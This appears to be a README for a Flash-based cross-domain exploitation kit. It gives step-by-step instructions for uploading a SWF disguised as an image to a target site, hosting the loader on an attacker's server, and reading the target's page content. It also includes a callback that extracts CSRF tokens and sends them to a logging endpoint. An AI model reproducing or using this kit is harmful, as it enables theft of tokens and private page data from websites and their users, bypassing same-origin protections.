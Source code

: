 # crossdomain
Crossdomain exploiting

### How to use this?

In crossdomain.js, edit the following line:
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
```

then:
- Upload the crossdomain.swf to the target (you can rename it to crossdomain.png or whatever).
- Upload the crossdomain.js, crossdomain.xml and the index.html to the root of your own server.
- Update the following information:
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
crossdomain.setFile('crossdomain.swf');
```

- At `crossdomain.setTarget` you file in the page of which you want the content.
- At `crossdomain.setFile` you set the location of the uploaded swf file.


### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

__For example:__
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement('img');
    img.src = 'log.php?response=' + escape(JSON.parse(response));

    document.getElementById('dump').appendChild(img);
  }
}
```
